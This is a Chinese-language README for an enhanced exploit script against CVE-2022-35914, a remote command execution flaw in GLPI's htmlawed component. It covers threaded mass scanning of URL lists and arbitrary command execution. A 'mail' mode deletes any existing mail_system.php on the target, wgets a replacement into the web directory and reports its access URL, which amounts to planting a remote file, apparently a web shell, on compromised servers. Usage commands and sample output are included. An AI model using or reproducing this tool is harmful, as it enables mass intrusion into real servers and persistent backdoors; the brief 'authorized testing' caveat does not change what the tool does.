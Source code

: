 # CVE-2022-35914 增强版使用说明

## 功能概述

这个增强版脚本在原有CVE-2022-35914检测功能基础上，新增了以下功能：

1. **批量漏洞检测** (`-l`): 检测文件中的所有URL是否存在漏洞
2. **Mail操作** (`-m`): 对单个URL执行mail检测和下载操作
3. **批量Mail操作** (`-lm`): 对文件中的所有URL执行mail操作
4. **结果输出** (`-o`): 将检测结果保存到文件

## 使用方法

### 1. 批量漏洞检测
```bash
# 使用默认10个线程
python CVE-2022-35914-enhanced.py -l urls.txt -o results.txt

# 使用20个线程
python CVE-2022-35914-enhanced.py -l urls.txt -o results.txt -t 20
```
- 检测 `urls.txt` 文件中的所有URL
- 将存在漏洞的URL保存到 `results.txt`
- 支持多线程并发检测，提高效率

### 2. Mail操作（单个URL）
```bash
python CVE-2022-35914-enhanced.py -m http://target.com -o mail_result.txt
```
- 对指定URL执行 `ls ../../../../` 命令
- 如果发现mail目录，下载 `mail_system.php`
- 返回访问地址并保存结果

### 3. 批量Mail操作
```bash
# 使用默认10个线程
python CVE-2022-35914-enhanced.py -lm urls.txt -o batch_mail_results.txt

# 使用5个线程（较保守）
python CVE-2022-35914-enhanced.py -lm urls.txt -o batch_mail_results.txt -t 5
```
- 对文件中的所有URL执行mail操作
- 保存所有成功处理的URL和访问地址
- 支持多线程并发处理，提高效率

### 4. 原有功能（保持兼容）
```bash
# 单个URL检测
python CVE-2022-35914-enhanced.py -u http://target.com

# 执行自定义命令
python CVE-2022-35914-enhanced.py -u http://target.com -c "whoami"

# 仅检查漏洞
python CVE-2022-35914-enhanced.py -u http://target.com --check
```

## 参数说明

### 新增参数
- `-l URL_FILE`: 批量检测URL文件路径
- `-m TARGET_URL`: 对指定URL执行mail检测和下载操作
- `-lm BATCH_FILE`: 批量执行mail检测和下载操作
- `-o OUTPUT_FILE`: 输出结果到指定文件
- `-t THREADS`: 多线程数量 (默认: 10)

### 原有参数（保持兼容）
- `-u URL`: 单个URL测试
- `-c CMD`: 要执行的命令（默认: id）
- `-f HOOK`: PHP hook函数（默认: exec）
- `--check`: 仅检查漏洞，不执行命令
- `--user-agent`: 自定义User-Agent

## 输出示例

### 批量检测输出
```
[*] 开始批量检测漏洞...
[*] 共发现 5 个URL需要检测
[1/5] 检测: http://example1.com
[+] 发现漏洞: http://example1.com
[2/5] 检测: http://example2.com
[-] 无漏洞: http://example2.com
...

[*] 检测完成! 发现 2 个存在漏洞的URL
[+] 存在漏洞的URL列表:
  - http://example1.com
  - https://target1.example.com
```

### Mail操作输出
```
[*] 开始对 http://target.com 执行mail操作...
[+] 目标存在漏洞，开始执行命令...
[+] 发现mail目录，开始下载mail_system.php...
[*] 删除现有mail_system.php文件...
[+] 下载命令已执行
[+] 访问地址: http://target.com/vendor/htmlawed/htmlawed/mail_system.php
```

## 文件格式

### URL文件格式 (urls.txt)
```
http://example1.com
http://example2.com
https://target1.example.com
https://target2.example.com
```

### 输出文件格式
- 漏洞检测结果：每行一个存在漏洞的URL
- Mail操作结果：包含目标URL、访问地址和操作详情

## 注意事项

1. 确保目标服务器存在CVE-2022-35914漏洞
2. 批量操作时建议控制并发数量，避免对目标服务器造成过大压力
3. 输出文件会覆盖已存在的同名文件
4. 所有网络请求都禁用了SSL验证，请谨慎使用
5. 建议在授权的测试环境中使用此工具
6. **Mail操作说明**: 由于wget命令下载文件后通常没有明显回显，脚本会默认认为下载成功。只要检测到mail目录并执行了下载命令，就会生成访问地址
7. **多线程说明**: 默认使用10个线程，可根据目标服务器性能和网络状况调整。线程数过多可能导致目标服务器压力过大或被封IP
8. **文件清理**: 在下载mail_system.php之前，脚本会自动删除现有的同名文件，确保下载的文件名正确

## 依赖安装

```bash
pip install -r requirements.txt
```

依赖包：
- beautifulsoup4
- requests
- argparse
